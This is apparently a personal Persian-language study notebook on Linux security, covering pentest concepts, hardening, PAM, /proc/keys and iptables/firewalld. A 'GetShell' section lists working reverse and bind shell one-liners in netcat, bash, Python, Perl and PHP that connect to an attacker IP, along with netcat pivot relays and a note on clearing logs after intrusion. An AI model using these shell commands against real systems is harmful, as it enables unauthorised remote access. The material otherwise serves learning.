



<div dir="rtl">

# 🅰️ Concepts مفاهیم

- **InformationGathering:** این قسمت شامل ابزار های جمع‌آوری اطلاعات است که در این دسته قرار دارند.
- **VulnerabilityAnalysis:** در این بخش ابزار های اسکنر برای پیدا کردن اسیب پذیری ها قرار دارند.
- **WebApplicationAnalysis:** کاربرد این مجموعه ابزار در زمینه جستجو و تست اسیب پذیری در برنامه های تحت وب است.
- **DatabaseAssessment:** با استفاده از ابزار های این دسته می توانید اقدام به انالیز برای کشف حفره های امنیتی در دیتابیس یا پایگاه داده کنید.
- **PasswordAttacks:** در این دسته بندی ابزار هایی برای انالیز و کرک پسورد ها و همچنین ابزار هایی برای کرک نرم‌افزار ها قرار دارند.
- **WirelessAttacks:** این بخش از منو کالی لینوکس ابزار های مربوط به تست نفوذ شبکه های وایرلس را به خود اختصاص داده است.
- **ReverseEngineering:** در این بخش مجموعه ابزار هایی برای مهندسی معکوس قرار داده شده است.
- **ExploitationTools:** ابزار های بهره‌برداری از آسیب پذیری ها و استفاده از اکسپلویت ها هستند، که در این قسمت می توانید مشاهده و استفاده کنید.
- **Sniffing(بوکشیدن):** شنود و سرقت و نظارت و جمع‌آوری اطلاعات از ترافیک شبکه[Wireshark، tcpdump، Ettercap]
- **Spoofing(جعل):** فرد یا سیستم غیرمجاز خود را منبع معتبر معرفی کند[مهاجم IP یا Email(جعل‌آدرس‌ایمیل‌فرستنده) یا DNS(هدایت‌به‌سایت‌جعلی) یا ARP(تغییر مک) یا CallerID(تلفنی) خود را تغییر می‌دهد تا معتبر جلوه کند]
    - **IPSpoofing:** مهاجم آدرس IP خود را تغییر می‌دهد تا به نظر برسد که از یک منبع معتبر یا شناخته‌شده ارسال می‌شود[رایج در حملات DDOS]
- **PostExploitation:** این دسته از ابزار ها مانند ابزار های جمع اوری اطلاعات هستند که پس از تست نفوذ از ان ها استفاده می شود و می توان از این ابزار ها برای استخراج و نگهداری اطلاعات به سرقت رفته استفاده کرد.
- **Forensics:** این دسته از ابزار های فارنزیک یا جرم شناسی در ردیابی و پیدا کردن نفوذگر کمک شایانی می کند.
- **ReportingTools:** مجموعه ای که در این قسمت وجود دارند برای گرفتن گزارش تست نفوذ استفاده می شوند.
- **SocialEngineering Tools:** با استفاده از ابزار های این بخش می توان حملات مهندسی اجتماعی را پیاده‌سازی کرد.
- **Doxing:** این مفهوم به معنی عمومی کردن اطلاعات یک شخص داخل اینترنت با هدف تحقیر و تهدید هست.
- **Fragmentation:** فرگمنتیشن زمانی رخ می‌دهد که بسته‌های داده در شبکه به قطعات کوچکتر تقسیم می‌شوند تا بهتر منتقل شوند. این تکنیک گاهی برای دور زدن Firewall ها یا سیستم‌های تشخیص نفوذ استفاده می‌شود.
- **Exploit:** اکسپلویت به معنای استفاده کردن از یک آسیب‌پذیری برای انجام یک حمله است
- **Vulnerability(آسیب‌پذیری):** یک نقص یا ضعف در سیستم (مثل نرم‌افزار، سخت‌افزار یا شبکه) است که مهاجم می‌تواند از آن برای نفوذ یا آسیب استفاده کند
- **ActiveAttacks[حملات‌فعال]:** در حملات فعال، مهاجم به صورت مستقیم و تعاملی به سیستم یا شبکه هدف حمله می‌کند و تغییرات ناخواسته‌ای در داده‌ها یا سیستم‌ها ایجاد می‌کند.
- **PassiveAttacks[حملات‌غیرفعال]:** در این نوع حملات، مهاجم تنها ترافیک شبکه یا داده‌ها را شنود می‌کند بدون اینکه تغییری در سیستم ایجاد کند. هدف این حملات معمولاً Information Gathering است، بدون اینکه برای سیستم هدف مخرب به نظر برسد.
- **bypass**: «گذرگاه‌فرعی» یا «ازراه‌فرعی‌رفتن» یا «تقاطع‌که‌راه‌فرعی‌دارد»
- **chroot**: روشی است که کاربر در زمان لاگین فکر میکند که در مسیر / قرار دارد ولی او در مسیری که قبلا انتخاب کردیم قرار گرفته است
- **FakeVersion** : می‌توان بجای نمایش نسخه یک سرویس به کاربر ورژن fake نمایش داده شود
- **StartWithUser**: سرویس تنها توسط یک کاربر خاص مدیریت شود(سطح دسترسی از روت گرفته شود و تنها به آن کاربر داده شود)
- **FakeUser**: کاربر ادمین rename شود و کاربر جدید با دسترسی محدود با نام root یا administrator ایجاد شود
- **view**: تنظیمات در اتصال از داخل و بیرون شرکت فرق نماید مثل DNS که ارجاع به DNS در محل داخل و خارج شرکت مهم می‌شود
- **fail2ban**:از مکانیزم IDS یا Intrusion Detection Systems است و مثلا اگر کسی چندین بار به fail خورد آن‌ آی‌پی را ban نماید(لاگ را میخواند و از لاگ متوجه می‌شود که یک شخص چندین بار ورود ناموفق داشته است)
- **AttackVector**: مقدار سطح تماس خارجی که قابلیت دسترسی برای حمله در آن وجود دارد(تعداد پورت باز بالاتر، بسته‌های اضافی نصب شده، سرویس‌های زیاد روی یک سرور و غیره)
- **VAPT**: ابزارهای ارزیابی آسیب پذیری و تست نفوذ[می‌توانند در شناسایی و کاهش آسیب‌پذیری‌ها قبل سوءاستفاده هکرها] که بهترین های آن در سال ۲۰۲۴ موارد Nessus و OpenVAS و Acunetix بوده است
- **DLP** یا **DataLossPrevention**: مجموعه‌ای از ابزارها و فناوری‌هایی گفته می‌شود که از دسترسی افراد غیرمجاز به اطلاعات کسب‌وکارهای مختلف جلوگیری می‌کند.مهم‌ترین بخش DLP بررسی محتوا (Content Inspection) است
    - برنامه trendMicro درحوزه DLP انقلاب به پا کرد و همواره در راس قرار دارد.
- **PortKnocking**: با ارسال سه بسته متوالی به پورت‌های ۵۰ و ۶۰ و ۷۰ ، به‌صورت خودکار پورت http یا هرپورت دلخواه برای مدت محدود باز شود

## 🅱️ انواع بدافزار

- **Virus(ویروس)**: قطعه کد که توسط بدافزارنویس نوشته شده و طبق روال از قبل تعریف و تعیین شده عمل می‌کند(قطعه کد خرابکاری)
- **Trojan(تروجان)**: قطعه کد که توسط بدافزارنویس نوشته شده و کنترل آن در دست بدافزار نویس است(کنترل راه دور و گاهی هم به‌صورت خودکار تصمیم و عمل می‌کند). همچنین دیتا جمع‌آوری کرده و درزمان خاص اطلاعات را ارسال می‌کند
- **RootKit(روت کیت)**: کیت نرم‌افزاری خیلی خطرناک(بدلیل برخورداری از دسترسی اصلی )
- **Malware(کرم)**: قطعه کد هوشمندبا قابلیت تصمیم‌گیری در شرایط برای تحقق هدف‌خاص(مثلا نیروگاه اتمی) و در نهایت درصورت نیاز ارسال دیتا به سرور

# 🅰️ AttacksType(انواع حملات)

- MITM (Man-in-the-Middle)
- DoS
- DDoS
- دیکشنری
- BruteForce
- Malware
- SniffingAttack
- SQL injection
- Cross-site scripting (XSS)
- NoFunctionLevelControl
- BrokenAuthentication

# 🅰️ Applications ابزارهای و برنامه‌ها

- IPTables
- NfTable
- Fail2ban: رصد لاگ و مسدودسازی مهاجم پیرو چندین ورود ناموفق
    - از iptables و firewalld برای ممنوع کردن آدرس های IP استفاده می کند
- SELinux
- TCPWrappers
- Nessus: اسکن کردن آدرس سایت
- Acunetic: اسکن کردن آدرس سایت
- MaltegoTungsten: کشیدن چارت اطلاعات سایت
- Crunch: برنامه‌ای برای تولید پسورد لیست
    - crunch <min-len> <max-len> [options]
    - crunch 4 5 1234567890 -o /tmp/Output.txt #از اعداد ۰تا۹ پسورد تولید کند و باید تمام موارد تولید شده ۴ رقمی و ۵ رقمی باشد و در فایل خروجی بریزد
    - crunch 4 5 -o /tmp/Output.txt #اگر عددی یا حروفی انتخاب نکنید همه موارد انتخاب خواهد شد
- نرم‌آفزار Nuclear Rat: سرور میسازد و تروجان ایجاد می‌کند

## 🅱️ snort

snort: یک برنامه که سر راه ترافیک می‌نشیند و ترافیک را بررسی می‌کنند

- تحت سه نوع زیر ایفای نقش می‌کند
    - [sniffer]: نمایش تمام بسته‌ها یا همان dump در ترمینال
        - Snort just dumps network packets to the terminal display.
    - [PacketLogger]: لاگ کردن در یک فایل
        - Packet logger: Snort logs all packets to a log file.
    - [NIDS]: گزارش خطرات به ادمین
        - Snort doesn’t store detailed packet data but only reports on detected intrusion attempts

```
action protocol address direction address options # فرمت ایجاد یک رول جدید به شکل زیر است
alert icmp any any -> 192.168.1.0/24 any (msg: "ICMP traffic detected") # مثال: نمایش پیغام ICMP traffic detected زمانی که هر کسی روی هر پورتی روی پروتکل icmp پینگ کرد هر پورتی از 192.168.1.0/24 را
```

مثلا می‌شود کاری کرد که اگر کسی فلان کار را کرد توسط iptable او را ban یا نهایتا block نماییم

# 🅰️ AntiHack(مقابله با هک)

- بروزرسانی کرنل و نرم افزارها
- غیرفعال کردن root login توسط پارامترPermitRootLogin=no در فایل sshd_config
- تغییر شماره پورت‌ها[مخصوصا SSH]
- حتی المقدور محدود کردن دسترسی‌ها به‌صورت فقط فیزیکی به سرور(بستن ریموت‌ها)
- غیرفعال نمودن IPv6: مهاجمین معمولا ترافیک را از ورژن۶ ارسال می‌کنند
    - باز کردن فایل /etc/sysctl.d/99-sysctl.conf و تغییر مقدار به ۱ برای پارامترهای[net.ipv6.conf.all.disable_ipv6 = 1] [net.ipv6.conf.default.disable_ipv6 = 1][ net.ipv6.conf.lo.disable_ipv6 = 1] در ادامه دستور sudo sysctl -p ودر ادامه فایل /proc/sys/net/ipv6/conf/all/disable_ipv6 را باز کرده و باید مقادیر بالا عدد یک داشته باشند
- استفاده از SFTP بجای FTP
    - TTP رمزنگاری ندارد
    - FTPS فقط رمزنگاری اعتبارنامه‌ها و نه انتقال فایل[FTP over TLS]
    - SFTP: انتقال دیتا از بستر پروتکل «اس‌اس‌اچ»[FTP over SSH] تمام داده‌ها، از جمله اعتبارنامه‌ها و فایل‌های در حال انتقال را به طور کامل رمزگذاری می کند
        - sftp -oPort=customport user@server_ipaddress
- راه‌اندازی فایروال داخلی سیستم
- نصب آنتی ویروس
- بررسی لاگ ها و تجزیه و تحلیل وقایع
- کنترل تعدد سطح دسترسی یوزرها [افراد مجاز یوزر روت]

# 🅰️ Mentions

- Kali Alterntives OS: 1-Parrot os 2-Backbox os

## 🅱️ Five Step for do Hacking...

1. Reconnaissance (شناسایی) : جمع‌آوری اطلاعات اولیه درباره هدف.
2. Scanning : استفاده از ابزارهای خاص برای شناسایی نقاط ضعف سیستم ها و شبکه ها.
3. Gaining Access (گرفتن دسترسی) : بهره‌برداری از آسیب پذیری‌ها برای نفوذ به سیستم و کسب دسترسی.
4. Maintaining Access (حفظ دسترسی) : حفظ دسترسی به سیستم برای مدت زمان طولانی تر بدون شناسایی.
5. Clearing Tracks (پاک کردن رد پاها) : پاک کردن لاگ ها و ردپاها برای جلوگیری از شناسایی توسط مدیران سیستم.

# 🅰️ KEY

## 📁️ /proc/keys

برای اشکال‌زدایی و بررسی وضعیت مدیریت کلید در کرنل استفاده می‌شود.نکته مهم این است که payload(محتوی) کلیدها در این فایل نمایش داده نمی‌شود و فقط متادیتا (شناسه، نوع، مجوز، مالک و توضیح) قابل مشاهده است. برای کار با خود کلیدها باید از دستور keyctl استفاده کنید.

```shell
cat /proc/keys
SERIAL   FLAGS       USAGE  EXPY   PERM         UID     GID   TYPE         DESCRIPTION
009d011b I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
00c347cf I--Q---     5      perm   3f030000     0       0     keyring      _ses: 1
00c58d5d I------     2      perm   09090000     0       0     blacklist    bin:32f5940ca29dd812a2c145e6fc89646628ffcc7c7a42cae512337d8d29c40bbd
028ac9d4 I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
02b192ec I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
03865e54 I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
03ce7b3c I--Q---     2      perm   3f030000     0       0     keyring      _ses: 1
03e414c8 I------     2      perm   09090000     0       0     blacklist    bin:e19dae83c02e6f281358d4ebd11d7723b4f5ea0e357907d5443decc5f93c1e9d
0491a2f1 I------     1      perm   1f0f0000     0       0     keyring      .secondary_trusted_keys: 2
04925309 I------     2      perm   09090000     0       0     blacklist    bin:82db3bceb4f60843ce9d97c3d187cd9b5941cd3de8100e586f2bda5637575f67
0495ac26 I------     2      perm   09090000     0       0     blacklist    bin:45c7c8ae750acfbb48fc37527d6412dd644daed8913ccd8a24c94d856967df8e
04c0e93a I--Q---     2      perm   3f030000     0       0     keyring      _ses: 1
04f02adb I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
05fb60a1 I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
071765bb I--Q---     1      perm   0b0b0000     0       0     user         invocation_id: 16
072918d8 I--Q---     1      perm   1f3f0000     0       65534 keyring      _uid_ses.0: 1
...
```

* SERIAL(شناسه): شماره سریال یکتای کلید به صورت هگزادسیمال
    * این همان شناسه‌ای است که با دستور `keyctl` هم می‌توان با آن کار کرد
* FLAGS: مجموعه‌ای از کاراکترها که وضعیت کلید را نشان می‌دهند
    * `I` ---> Instantiated: آماده و معتبر است
    * `R` ---> Revoked: کلید بصورت عمدی توسط فضای کاربر لغو امتیاز و باطل شده است و دیگر حق استفاده از آن را ندارید
        * کلید دیگر قابل جستجو یا استفاده عادی نیست.
        * هرگونه تلاش برای دسترسی به آن با خطای EKEYREVOKED مواجه می‌شود.
        * تنها عملیات مجاز روی آن، حذف لینک (Unlink) از کی‌رینگ است و بلافاصله در نوبت پاکسازی حافظه (Garbage Collection) قرار می‌گیرد.
    * `D` ---> Dead: نوع کلید از کرنل حذف شده
    * `Q` ---> Quota: کلید در سهمیه Quota کاربر حساب می‌شود
    * `U` ---> Under construction: کلید در حال ساخت توسط فضای کاربر است
    * `N` ---> Instantiated : کلید به صورت منفی Instantiated شده (یعنی وجود ندارد)
    * `i` ---> Invalidated: کلید توسط هسته یا یک فرآیند به حالت «نامعتبر» تغییر وضعیت داده است (این کلید از نظر سیستمی دیگر معتبر یا قابل اعتماد نیست و از دسترس خارج شده است حتی اگر در حافظه باشد)
        * کلید از دید عملیات عادی جستجو و دسترسی نامرئی می‌شود.
        * برخلاف Revoked که یک اقدام مدیریتی عمدی است، Invalidated معمولاً زمانی رخ می‌دهد که داده‌های کلید منقضی/مخدوش شده باشند یا نوع کلید (Key Type) از سیستم حذف شده باشد.
        * کلید ممکن است هنوز به‌صورت فیزیکی در حافظه هسته باقی بماند تا زمانی که چرخه پاکسازی (Garbage Collection) آن را به‌طور کامل حذف کند.
* USAGE: تعداد ساختارهای اعتبارسنجی کرنل (credential structures) که به این کلید اشاره می‌کنند.
    * تقریباً معادل تعداد تردها و فایل‌های باز است که از این کلید استفاده می‌کنند
* EXPY(انقضا): زمان باقی‌مانده تا انقضای کلید
    * perm: یعنی کلید دائمی است و منقضی نمی‌شود
    * expd: یعنی کلید منقضی شده اما هنوز توسط زباله‌روب (garbage collector) پاک نشده است
    * time: زمان به صورت هفته/روز/ساعت/دقیقه/ثانیه نمایش داده می‌شود
* PERM: مجوزهای کلید به صورت چهار بایت هگزادسیمال
    * `0x01` --> view
    * `0x02` --> read
    * `0x04` --> write
    * `0x08` --> search
    * `0x10` --> link
    * `0x20` --> setattr
* UID: شناسه کاربری مالک کلید
* GID: شناسه گروه مالک کلید. مقدار -1 یعنی کلید گروه ندارد (ممکن است برای کلیدهای ساخته‌شده توسط کرنل رخ دهد).
* TYPE: نوع کلید
    * `user`: کلید کاربری (برای ذخیره داده‌های دلخواه).
    * `keyring`: جاکلیدی (نگهدارنده مجموعه‌ای از کلیدهای دیگر).
    * `blacklist`: لیست سیاه (برای رد کردن کلیدهای خاص).
    * `logon`: مشابه user اما محتوایش برای فضای کاربر قابل خواندن نیست.
* DESCRIPTION: توضیحات اضافی با فرمت زیر
    * Format: `name[: extra-info]`
    * نوع اطلاعات اضافی به نوع کلید بستگی دارد

## 🅱️

# 🅰️ HACK

## 🅱️ GetShell

### ✅️ Linux

> روش اول

```shell
nc 10.0.20.206 4444 -e /bin/bash # Target
nc -lvp 4444: # Attacker(10.0.20.206)
```

> روش دوم

```shell
nc 10.0.20.206 4444 # Target
nc -lvp 4444 -e /bin/bash # Attacker(10.0.20.206)
```

> روش سوم

```shell
bash -i >& /dev/tcp/10.0.20.206/4444 0>&1 # Target
nc -lvp 4444 # Attacker(10.0.20.206)
```

---

#### ✳❇️ proxy

<div dir="ltr">

- 10.11.1.16 attack box:
- 10.11.1.96 target host:
- 10.11.1.250 pivot point:

</div>

```shell
# Target[10.11.1.96]
nc -lvp 4444 -e /bin/sh

# Proxy[IP: 10.11.1.250]
nc -v 10.11.1.16 4444 -e "nc -v 10.11.1.96 4444"

# Hacker[IP: 10.11.1.16]
nc -lvp 4444

```

### ✅️ Windows

```
nc.exe  10.0.20.206 4444 -e cmd.exe # Target
nc -lvp 4444 # Attacker(10.0.20.206)
```

---

#### ❇️ proxy

<div dir="ltr">

- Target[Windows1][10.11.1.198]
- Proxy [Windows2][10.11.1.199]
- Hacker[LinuxKali][10.11.1.16]

</div>

> روش اول

```shell
# Target(Windows1):needs to attach incoming commands on port 4444 to CMD.exe and redirect the output back to Windows Proxy on port 4444
nc -lvp 4444 -e cmd.exe 

# Proxy(Windows2): needs to direct incoming traffic on port 3333 to Windows Target on port 4444 and input traffic from Windows Target must be send to Kali Linux output on port 2222
nc.exe 10.11.1.16 3333 | nc.exe 10.11.1.198 4444 | nc.exe 10.11.1.16 2222

# Hacker(Linux): should be sending commands to Windows Proxy on port 3333 and receive input from Windows Proxy on port 4444
nc -lvp 3333 ; nc -lvp 4444
```

> روش دوم

```shell
# Target(Windows):
nc -lvp 4444 -e cmd.exe

# Proxy(Windows):
nc -v 10.11.1.16 4444 -c "nc -v 10.11.1.198 4444"

# Hacker(Linux):
nc -lvp 4444

```

### ✅️ python

```shell
# Target:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.20.206”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);'

# Attacker(10.0.20.206):
nc -lvp 4444
```

### ✅️ Perl

```shell
# Target:
perl -e 'use Socket;$i=”10.0.20.206″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};'

# Attacker(10.0.20.206):
nc -lvp 4444
```

### ✅️ PHP

```shell
# Target:
php -r '$sock=fsockopen(“10.0.20.206”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);'

# Attacker(10.0.20.206):
nc -lvp 4444

```

## 🅱️ send Data

> انتقال دیتا از طریق برنامه Netcat

```shell
nc -l -p 55000 > /tmp/FIle.txt # Server1
netcat <IPserver1> 55000 < File.txt # server2
```

```shell
nc -l -p 55000 > /tmp/FIle.txt # Server1
nc <IPserver1> 55000 < File.txt # server2
```

# 🅰️ TLS

* openssl3.1 + برخی ویژگی جدید
* پروتکل openssl3 را ارتقا دادند و باگ‌های امنیتی آن را برطرف کردند و شماره آن را گذاشتند openssl3.1

# 🅰️ Authentication

* PAP
    * نام کاربری و پسورد را بصورت clearText ارسال میکند
* CHAP
    * ۱-سرور سه کاراکتر xyz (تغییرپذیر) به کلاینت ارسال میکند
    * ۲-کلاینت پسورد را همراه با xyz به هش تبدیل میکند
    * ۳-سرور پسورد را دارد و عملیات شماره ۲ را انجام مید‌هد
    * ۴-هش سرور و هش کلاینت مقایسه می‌شود

## 🅱️ PAM(Pluggable Authentication Modules)

* یک لایه authenticate برای سرویس‌دادن به تمام برنامه‌های لینوکس که هرکسی کارهای authenticate داشت به آن رجوع و جواب خود را کسب می‌کند و بدلیل اینکه pluggable هست هر برنامه می‌تواند ماژول خود را به PAM ارائه دهد و از PAM سرویس دریافت نماید
* nsswitch: ترتیب استفاده از فایلها یا سرویسها را برای authenticate یا responses به برخی از موارد در سیستم تعیین می کند
* login auth required pam_unix.so
* ماژول‌های کرنلی PAM library به شرح زیر است
    * [pam_access.so]: Used to provide anonymous logins for public FTP servers
    * [pam_chroot.so]: Used to create a locked down area for logins
    * [pam_console.so]: Provides a console login environment
    * [pam_cracklib.so]: Provides password strength checks
    * [pam_deny.so]: Prohibits login attempts (often used as a default)
    * [pam_env.so]: Sets or unsets environment variables
    * [pam_lastlog.so]: Provides the last login time for the user account
    * [pam_limits.so]: Enforces resource limits (such as number of open files) on accounts
    * [pam_listfile.so]: Allows or denies actions based on a list file
* ماژول‌های کرنلی PAM authentication به شرح زیر است
    * [pam_unix.so]: استفاده از فایل استاندارد /etc/shadow و /etc/passwd
    * [pam_krb5.so]: استفاده از مکانیزم Kerberos5 برای authenticate کردن کاربران و دسترسی‌ها
    * [pam_ldap.so]: استفاده از LDAP
    * [pam_nis.so]: استفاده از NIS سرور
    * [pam_sss.so]: استفاده از System Security Services daemon یا SSSD
    * [pam_userdb.so]: استفاده از یک دیتابیس فایل استاندارد بافرمت db

### 📁️ etc/pam.conf

* فایل etc/pam.conf با فرمت زیر قابلیت کانفیگ شدن دردوحالت زیر را دارد

> حالت اول 1️⃣️: type های قابل تنظیم مطابق زیر است

```
[account]: Account verification services
[auth]: Authentication services
[password]: Password management services
[session]: External services, such as logging attempts to a file or mounting a directory An application can define multiple feature types for an uthentication, but you must use a separate configuration line to define each feature type.
```

> حالت دوم 2️⃣️: control های قابل تنظیم مطابق زیر است

```
[requisite]: Terminate the application if authentication fails.
[required]: Return a failure status if authentication fails, but continue checking otherrules.
[sufficient]: If the rule succeeds, the authentication process stops with a success status.
[optional]: The rule is not necessary, unless it is the only rule defined for the module.[requisite]: Terminate the application if authentication fails.
[required]: Return a failure status if authentication fails, but continue checking otherrules.
[sufficient]: If the rule succeeds, the authentication process stops with a success status.
[optional]: The rule is not necessary, unless it is the only rule defined for the module.
```

مثال۱: در پروسه لاگین(یعنی یک اپلیکیشن بنام login که منظور همان پروسه لاگین لینوکس است) که از نوع uthentication کردن کاربران و بررسی دسترسی است از نوع required یعنی حتما باید بتواند لاگین کند وگرنه fail برمیگرداند و از ماژول pam_unix.so استفاده می‌گردد یعنی باید براساس فایل /etc/passwd و /etc/shadow عمل authenticate را انجام بده



# 🅰️ iptable

* chain: بسته‌ای که از اینترنت به سیستم می‌رسد تحت زنجیره‌ای از جایی ورود می‌نماید و به جایی می‌رسد. بسته اول از یک chain بنام PreRoute عبور می‌کند که در ادامه ۲ حالت خواهد شد:
    1. بسته قصد ورود به سیستم عامل دارد که وارد InputChain می‌شود و ممکن است پس از انجام پردازش روی آن در OutputChain قرار بگیرد و به خروجی هدایت شود
    2. بسته قرار است بدون ورود به سیستم به یک سیستم دیگری هدایت یا Remote گردد که در این صورت وارد ForwardChain خواهد شد
* حالت‌های متفاوت chain
    * [PREROUTING chain]: handles packets before the routing decision process.
    * [INPUT chain]: handles packets destined for the local system.
    * [FORWARD chain]: handles packets being forwarded to a remote system.
    * [POSTROUTING chain]: handles packets being sent to remote systems, after the forward filter.
    * [OUTPUT chain]: handles packets output from the local system.
* نکته: اگر بخواهیم یک سیستم بسته‌های ورودی را به ریموت هاست forward نماید باید در آی‌پی ورژن۴ مقدار net.ipv4.ip_forward و در آی‌پی ورزن ۶ مقدار net.ipv6.conf.all.forwarding در sysctl عدد 1 داشته باشد
* [table]: جدولی که rule ها در آن نوشته می‌شود که در INPUT chhain سه table با نام‌های ذیل داریم
    1. FILTER: قواعدی که یک بسته را block یا allow میکنند
    2. MANGLE: قواعدی که یک بسته رو تغییر می‌دهند
    3. NAT: قواعدی برای NAT نمودن بسته‌ها
* [Drop]: دور انداختن یک بسته
* [Accept]: پذیرفتن درخواست
* [Reject]:بدون باز کردن یک بسته آن را برمی‌گرداند[Log]: لاگ کرده و سپس accept می‌نماید
* [REDIRECT]: هدایت به جایی
* نکته مهم: ورزن جدید نسخه Iptable نام nftable دارد و این دستور کارهای آی پی تیبل را انجام می‌دهد

## 🅱️ iptable command

* دستورهای پایه‌ای:
    * [A chain rule-]: افزودن یک قانون جدید به یک chain خاص
    * [D chain rule-]: حذف یک قانون جدید از یک chain خاص
    * [F [chain-]]: حذف تمام قوانین وضع شده از یک chain یا تمام chainها
    * [I chain index rule-]: افزودن(Insert) یک قانون بین دو قانون وضع شده قبلی(ترتیب قرار گرفتن یک قانون مهم است)
    * [L [chain-]]: لیست قوانون موجود در یک chain یا همه chainها
    * [S [chain-]]: لیست قوانون موجود در یک chain یا همه chainها یا جزئیات بیشتر
    * [P chain target-]: تعیین سیاست عمومی یک chain عمل dropباشد یا allow
    * [R chain index rule-]: جایگزین نمودن(Replace) یک قانون در یک index خاص(ترتیب قرار گرفتن یک قانون مهم است)
    * [t table-]: مشخص نمودن یک table
* دستورها قانون‌ها به‌صورت زیر است:
    * [d address-]: تغیین مقصد
    * [g chain-]: پرش به یک chain جدید
    * [i name-]: تعیین اینترفیس ورودی یک کارت شبکه
    * [j target-]: عمل DROP صورت گیرد یا عمل ACCEPT یا LOG یا REJECT
    * [o name-]: تعیین اینترفیس خروجی یک کارت شبکه
    * [p protocol-]: تعیین پروتکل
    * [s address-]: تعیین مبدا
    * [sport--]: تعیین پورت ورودی
    * [dport--]: تعیین پورت خروجی

```shell
iptables -L #نمایش وضعیت موجود
iptables -P OUTPUT [DROP/ACCEPT] #قرار دادن پالیسی دیفالت drop یا accept در چِین OUTPUT
iptables -t filter -P OUTPUT DROP #قرار دادن پالیسی دیفالت drop در چِین OUTPUT در جدول filter
iptables -A INPUT -s 10.0.1.25 -j REJECT #عمل REJECT روی آی‌پی 10.0.1.25 در INPUT chain یعنی هیچگاه این آی‌پی نمی‌تواند به سیستم بسته ارسال نماید
iptables -A OUTPUT -d 4.2.2.4 -p icmp -j REJECT #بستن پینگ 4.2.2.4 برای همه
iptables -A OUTPUT -p icmp -j DROP #بستن همه پینگ‌ها
iptables-save #نمایش تمام قوانین موجود در iptables
iptables-save > FileName.txt #ایجاد بک‌آپ از تمام قوانیم موجود در iptables در یک فایل
iptables-restore < FileName.txt #ریستور کردن قوانین iptables از یک فایل که قبلا بک آپ گرفته شده بود توسط دستور iptables-save
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j REDIRECT --to-port 80 #بسته‌هایی ورودی که پورت مقصد آن بسته 8080 باشد و اینترفیس eth0 و پروتکل tcp باشد را به پورت ۸۰ هدایت نماید و این قانون را به جدول nat از chain بنام PREROUTING اضافه نماید
iptables

بازکردن پورت ان تی پی سرور 
sudo iptables -A OUTPUT -p udp --dport 123 -j ACCEPT
sudo iptables -A INPUT     -p udp --sport 123 -j ACCEPT
نمایش تمام رول های آی پی تیبل
sudo iptables -L [INPUT | OUTPUT | FORWARD] -n -v
sudo iptables -L -n -v
-L: این گزینه برای لیست کردن (نمایش) تمام زنجیره‌ها و رول‌ها استفاده می‌شود.
-n: این گزینه از تبدیل آدرس‌های IP و نام‌های دامنه به فرمت عددی جلوگیری می‌کند، که باعث افزایش سرعت نمایش می‌شود.
-v: این گزینه اطلاعات بیشتری را نمایش می‌دهد، از جمله تعداد بسته‌ها و بایت‌هایی که هر رول پردازش کرده است.

```

## 🅱️ firewall-cmd

```shell
rpm -qa firewalld          #install
sudo apt install firewalld #install
sudo firewall-cmd --state
sudo firewall-cmd --reload
sudo firewall-cmd --get-zones
sudo firewall-cmd --get-services
sudo firewall-cmd --get-default-zone
sudo firewall-cmd --zone=home --add-interface=wlp1s0
sudo firewall-cmd --zone=public --add-interface=wlp1s0
sudo firewall-cmd --zone=public --change-interface=wlp1s0
sudo firewall-cmd --get-active-zones
sudo firewall-cmd --list-ports
sudo firewall-cmd --list-services

#[1]
sudo firewall-cmd --set-default-zone=external
#[or]
sudo firewall-cmd --set-default-zone=external --permanent
sudo firewall-cmd --reload

#[2]
sudo firewall-cmd --zone=home --list-all
#[or]
sudo firewall-cmd --info-zone public

```

[URL](https://www.tecmint.com/install-configure-firewalld-in-centos-ubuntu)





</div>